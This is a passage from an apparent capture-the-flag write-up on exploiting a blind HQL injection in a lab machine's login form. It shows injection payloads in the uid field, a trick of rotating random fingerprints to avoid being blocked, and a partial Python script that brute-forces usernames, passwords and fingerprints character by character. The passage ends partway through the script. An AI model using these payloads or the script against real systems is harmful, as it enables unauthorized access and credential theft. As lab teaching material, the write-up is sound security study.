 
Interestingly, changing the fingerprint unblocks me. When I want to brute
force the blind injection, I’ll want to use a random fingerprint each time to
avoid being blocked.

#### Blind Injection

Because I have an injection that returns different responses based on the
injection, I can do a blind injection. [This
post](https://medium.com/@misc_heading/exploiting-a-hql-
injection-895f93d06718) gives an example, but you have to guess the fields in
the database to make it work.

I tried guessing that the username might be stored in `uid` with a username
like `0xdf' or uid like 'b%` (though the `%` needs to be encoded to `%25`),
and it returned Invalid Credentials. When I try with `'a%`, it returned
Invalid fingerprint-ID. Now I have a way to brute force any column I can
guess.

I was able to guess objects “username”, “password”, and “fingerprint”.

Here’s a [video](https://www.youtube.com/watch?v=1efIJEzVR54) of how I wrote
the brute force script:

Here’s the final script, though as I showed in the video, it changes a good
bit:

    
    
    #!/usr/bin/env python3
    
    import random
    import requests
    import string
    
    
    def get_next_char(obj, known, alpha):
        for c in alpha:
            print(f'\r{known}{c}', end="\x1b[2K")
            resp = requests.post(
                "http://10.10.11.127:8080/login",
                data={
                    "uid": f"0xdf' or {obj} like '{known}{c}%",
                    "auth_primary": "",
                    "auth_secondary": f"{random.getrandbits(128):32x}",
                },
                headers={"Content-Type": "application/x-www-form-urlencoded"},
                #proxies={"http": "http://127.0.0.1:8080"},
            )
            if 'Invalid fingerprint-ID' in resp.text or 'query did not return a unique result' in resp.text:
                resp = requests.post(
                    "http://10.10.11.127:8080/login",
                    data={
                         "uid": f"0xdf' or {obj}='{known}{c}",
                         "auth_primary": "",
                         "auth_secondary": f"{random.getrandbits(128):32x}",
                    },
                    headers={"Content-Type": "application/x-www-form-urlencoded"},
                    #proxies={"http": "http://127.0.0.1:8080"},
                )
                if 'Invalid fingerprint-ID' in resp.text:
                    print(f'\33[2k\r{known}{c:<64}')
                    return
                get_next_char(obj, f'{known}{c}', alpha)
    
